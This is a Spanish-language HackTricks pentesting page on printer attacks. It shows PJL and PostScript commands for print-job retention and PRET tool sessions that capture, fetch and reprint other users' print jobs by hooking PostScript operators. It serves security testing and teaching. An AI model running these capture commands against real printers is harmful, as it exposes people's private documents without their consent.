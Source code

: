 <details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>


# Retención de Trabajos

Algunas impresoras tienen trabajos de impresión almacenados accesibles desde el servidor web. Sin embargo, generalmente la retención de trabajos debe ser activada explícitamente para un trabajo de impresión determinado y se puede hacer utilizando comandos PJL estándar o código PostScript propietario. Los trabajos se mantienen entonces en memoria y pueden ser reimprimidos desde el panel de control.

## PJL

La retención legítima de trabajos puede ser habilitada para el documento actual estableciendo la variable PJL HOLD como se muestra a continuación:
```
@PJL SET HOLD=ON
[actual data to be printed follows]
```
Los trabajos en espera se mantienen en memoria y pueden ser reimpresos desde el panel de control de la impresora. Esta característica es soportada por varias impresoras, sin embargo, parece que solo algunos dispositivos Epson permiten que la retención permanente de trabajos sea configurada usando `@PJL DEFAULT HOLD=ON`.

**¿Cómo probar este ataque?**

Utiliza el comando `hold` de [**PRET**](https://github.com/RUB-NDS/PRET) en modo pjl para verificar si se puede configurar la retención permanente de trabajos:
```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Setting job retention, reconnecting to see if still enabled
Retention for future print jobs: OFF
```
## PostScript

PostScript ofrece una funcionalidad similar que, sin embargo, es específica del modelo y del fabricante. Para la serie HP LaserJet 4k y varias impresoras Kyocera, la retención de trabajos se puede habilitar anteponiendo los siguientes comandos a un documento PostScript:
```
<< /Collate true /CollateDetails
<< /Hold 1 /Type 8 >> >> setpagedevice
```
**Cómo probar este ataque?**

Usa el comando `hold` de [**PRET**](https://github.com/RUB-NDS/PRET) en modo ps:
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Job retention enabled.
```
# Captura de Trabajos

Es posible, aunque poco común, activar la retención de trabajos en el diálogo de impresión como se discutió anteriormente. Sin embargo, con PostScript, se tiene acceso completo sobre el trabajo de impresión actual y con el operador [startjob](./#postscript-ps), es incluso posible salir del bucle del servidor y acceder a trabajos futuros. Tal funcionalidad tiene el potencial de capturar todos los documentos si PostScript se utiliza como un controlador de impresora.

## PostScript

Con la capacidad de engancharse a operadores PostScript arbitrarios, es posible manipular y acceder a trabajos de impresión ajenos. Para **analizar el flujo de datos actual enviado a la impresora**, se puede aplicar una característica bastante interesante del lenguaje PostScript: leer su propio código de programa como datos utilizando el operador `currentfile`. De esta manera, se puede acceder al flujo de datos completo que será procesado por el intérprete de PostScript leyendo y almacenándolo en un archivo en el dispositivo de impresión. Si la impresora no ofrece acceso al sistema de archivos, **los documentos capturados pueden almacenarse en memoria**, por ejemplo, dentro de diccionarios permanentes de PostScript. \
Un problema práctico es decidir **qué operador debe ser enganchado** ya que no se obtiene acceso al flujo de datos hasta que este operador es procesado por el intérprete de PostScript. Como el atacante quiere capturar trabajos de impresión desde el principio, el **operador redefinido debe ser el primer operador** contenido en el documento PostScript. Afortunadamente, todos los documentos impresos con CUPS tienen una estructura fija que comienza con `currentfile /ASCII85Decode filter /LZWDecode filter cvx exec`. Basándose en la suposición de tal estructura fija, el atacante puede capturar documentos desde el principio y ejecutar (es decir, imprimir) el archivo después. Para sistemas de impresión **distintos de CUPS** este ataque también debería ser posible, pero **los operadores necesitan ser adaptados**. Tenga en cuenta que el encabezado de PostScript, que generalmente incluye el tamaño del medio, el usuario y los nombres de los trabajos, no puede ser capturado utilizando este método porque primero nos enganchamos al comienzo del documento actual. Otra estrategia genérica para engancharse al comienzo de cada trabajo de impresión es establecer el parámetro del sistema `BeginPage`, si es soportado por la impresora (la mayoría lo hace). Esta vulnerabilidad ha estado presumiblemente presente en dispositivos de impresión durante décadas, ya que solo se abusan de las construcciones del lenguaje definidas por el estándar de PostScript.

Utilice el comando `capture` de [**PRET**](https://github.com/RUB-NDS/PRET) en modo ps:
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.

printer:/> capture
Print job operations:  capture <operation>
capture start   - Record future print jobs.
capture stop    - End capturing print jobs.
capture list    - Show captured print jobs.
capture fetch   - Save captured print jobs.
capture print   - Reprint saved print jobs.
printer:/> capture start
Future print jobs will be captured in memory!
printer:/> exit
```
Ahora, imprime documentos arbitrarios (asegúrate de que PRET esté desconectado para no bloquear el canal de impresión). Después, puedes listar, obtener o reimprimir documentos capturados:
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> capture list
Free virtual memory: 16.6M | Limit to capture:  5.0M
date          size  user           jobname                 creator
───────────────────────────────────────────────────────────────────────────────
Jan 25 18:38  3.1M  -              -                       -
Jan 25 18:40  170K  -              -                       -
printer:/> capture fetch
Receiving capture/printer/690782792
3239748 bytes received.
Receiving capture/printer/690646210
174037 bytes received.
printer:/> capture print
printing...
printing...
2 jobs reprinted
printer:/> capture stop
Stopping job capture, deleting recorded jobs
```
<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue**me en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
